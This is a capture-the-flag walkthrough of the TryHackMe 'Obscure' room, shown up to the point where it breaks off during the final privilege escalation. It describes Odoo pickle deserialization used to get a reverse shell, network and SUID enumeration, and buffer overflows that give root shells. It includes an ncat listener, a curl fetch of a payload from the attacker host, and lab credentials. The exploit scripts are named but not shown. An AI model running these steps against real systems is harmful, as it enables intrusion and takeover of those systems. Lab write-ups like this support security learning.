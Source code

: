# Obscure

[Obscure](https://tryhackme.com/room/obscured)

## Solution

- nmap scan: 21, 22, 80

### password

We see from the nmap scan that we can connect using anonymous session with ftp.
In the fpt session we find a `notice.txt` file and an ELF executable called
`password`. From the notice `password` is an application that stores passwords?

Intresting `strings`:

```
SecurePaH
ssword12H
```

We can `chmox +x password` and try to run it. We get the following message:

```
Password Recovery
Please enter your employee id that is in your email
```

If we try to break  the app with a very long string we get `*** stack smashing
detected ***: terminated` so we might not be able to redirect code execution.
We can try to gdb into the executable and try to see if we can somehow exploit
the tool.

Using gdb we can see that the input is compared using strcmp with `971234596`,
which is one of the strings of the executable, and it seems that it is the user
id. We can try to run the executable with that value.

After runnin the `password` tool with the input `971234596` we get
`SecurePassword123!`. This might be useful later. Maybe there is something else
in the code that we can do.

#### Note

We can access the website on port 80. After playing around a bit, I tried to go
to `Manage Databases`. There I tried to run backup and provided the password
that we got from the executable. And it downloaded a zip archive.

Scanning trought the `dump.sql` file I found something interesting `1	t
admin@antisoft.thm		1	3	\N	f	1	\N	\N	2022-07-23 10:52:10.087949
<span data-o-mail-quote="1">-- <br data-o-mail-quote="1">\nAdministrator</span>
$pbkdf2-sha512$12000$lBJiDGHMOcc4Zwwh5Dzn/A$x.EZ/PrEodzEJ5r4JfQo2KsMZLkLT97xWZ3LsMdgwMuK1Ue.YCzfElODfWEGUOc7yYBB4fMt87ph8Sy5tN4nag`

We can try and see if hashcat finds the same password, but it's not necessary.

### Initial Flag

I searched for odoo on exploitdb (https://www.exploit-db.com/exploits/44064)
and found something that looks promising. This seems to match with the version
that we have and is an actual thing. I spent so much time on that. But it
didn't work first try. I am too deep to not continue on this rabbit hole.
Well, the database anonymous exploit was actually the way to go. I just needed
to try a different connection method. You need to use pickle and pyhton2.7 for
this to work. Basically do the reverse of what happens on the server. After
many experiments, they do pickle.load (no base64, just raw).

1. Open the browser to the <ip> address of the box.
2. Login using `admin@antisoft.thm` and password `SecurePassword123!`.
3. Go to the `Apps` tab.
4. Remove the `Apps` filter and search for `Database Anonymization`.
5. Install the app.
6. Go to the `Settings` tab.
7. Under `Database Anonymization` select `Anonymize database` and then click `Anonymize Database`.
8. Save and refresh the page.
9. Run the python exploit script using your host address `python2.7 odoo_payload.py <host>`.
10. Start a ncat listener `ncat --ssl -vv -l -p 6969`.
11. Under `Database Anonymization` select `Anonymize database`.
12. Upload the `payload.pickle` file that was generated.
13. Click on `Reverse the Database Anonymization`.
14. You are in. Next go to the home directory `/var/lib/odoo` and cat the flag file.

### Odoo Machine

It looks like we are logged in as `odoo` and we are inside a docker container.

1. Enumerate ENV. We can display the environment variables.

```
HOSTNAME=b8a9bbf1f380
DB_PORT=tcp://172.17.0.2:5432
SHLVL=0
DB_ENV_PG_MAJOR=9.4
HOME=/var/lib/odoo
OLDPWD=/var
DB_NAME=/unkkuri-odoo/db
DB_PORT_5432_TCP=tcp://172.17.0.2:5432
DB_ENV_PGDATA=/var/lib/postgresql/data
ODOO_RC=/etc/odoo/odoo.conf
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DB_ENV_PG_VERSION=9.4.26-1.pgdg90+1
DB_ENV_LANG=en_US.utf8
ODOO_VERSION=10.0
PWD=/
DB_PORT_5432_TCP_ADDR=172.17.0.2
DB_ENV_POSTGRES_PASSWORD=unkkuri-secret-pw
DB_ENV_GOSU_VERSION=1.11
TZ=UTC
DB_PORT_5432_TCP_PORT=5432
DB_ENV_POSTGRES_USER=odoo
DB_PORT_5432_TCP_PROTO=tcp
```

2. Enumerate Network.

```
for i in $(seq 1 254); do (ping -c 1 172.17.0.${i} | grep "64 bytes from" | grep -oE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" &); done;
```

Another interesting thing is that there is also a `172.17.0.1` host on the
network. We can run the following to check.

- `172.17.0.1` 21, 22, 80, 4444 `Main Machine`
- `172.17.0.2` 5432 `Postgres Machine`
- `172.17.0.3` `Odoo Machine`

3. Enumerate SUID binaries.

```
find / -type f -perm -4000 -ls 2>/dev/null
```

We find an unusual binary `/ret`.

### Postgres Machine

Nice it looks like we have `psql` so we can try to connect to pg. We can try to
connect to the `main` db. Since we saw this name back when we were in the web
odoo stuff. (Big brain, took me a lot of time to remember the name). I guess
the password is obvious, but it is `unkkuri-secret-pw` look above.

```
psql postgresql://172.17.0.2:5432/main
```

I looked into the schemas but I could not find anything useful.

### Ret Binary. Rooting Odoo Machine

On host `nc -lp 8080 > ret`
On odoo `nc <host> 8080 < /ret`

We can look at the assembly generated (I used gdb). The main function is just a
call to `vuln`. The `vuln` function will print a message and then use the
`gets` function to read into a buffer of size 0x80 (128). We can try to do a
buffer overflow, by providing 0x88 bytes (8 more for the rbp 64bit). And the
program sigsev's.

Using radare, we can list all functions and there is a `win` (`win_addr =
0x00400646`) function. Maybe that is the function that we need to redirect to.
If we dissasemble the win function we can see that it runs `system` on a
string. If we inspect `x/s` that address we can see that the string is
`/bin/sh`.

Generate the payload using the python script `./ret_payload.py`. This will
generate a `payload.bin` file. We need to send this file to the odoo machine
and run ./ret with it as input.

On host `python -m http.server 8080`
On odoo `curl <host>:8080/payload.bin -o /tmp/payload.bin`

Then you can run `./ret < /tmp/payload.bin`. And we succesfully rooted the odoo
machine. You can verify this by doing `cat /root/root.txt`. And get `Well
done,my friend, you rooted a docker container.`

### Main Machine. User

All this binary stuff seems familiar. I tried before to run nmap -sC -sV for
the `Main Machine` and for port 4444 I was getting some weird messages similar
to the ones from ret. If we try to `nc` into the main machine on port 4444, we
get the same messages as for ret. So we can try the same payload.

```
(cat /tmp/payload.bin; cat) | nc 172.17.0.1 4444
```

And we are connected as `zeeshan`. We can get the flag by doing `cat user.txt`.
We also find a ssh private key that we can download so we can connect from host
directly to the main box.

```
ssh -i id_rsa_zeeshan zeeshan@<ip>
```

### Exploit Me. Rooting Main Machine

Again we enumerate for env, suid etc.

We find an interesting suid binary `/exploit_me`, we can assume it is similar
to ret, so we can send it to host for analysis.

```
scp -i zeeshan_id_rsa zeeshan@<ip>:/exploit_me exploit_me
```

If we inspect the assembly of the binary, we can see that there is a buffer of
size 0x20 (32 bytes) that we use for `gets` again. So we need 0x28 (40) bytes
of padding and then we need to redirect the code execution somehow. This time
there is no `win` function. We need to call system ourselves. The binary also
does suid(0) so if we manage to spawn a shell we will be root.
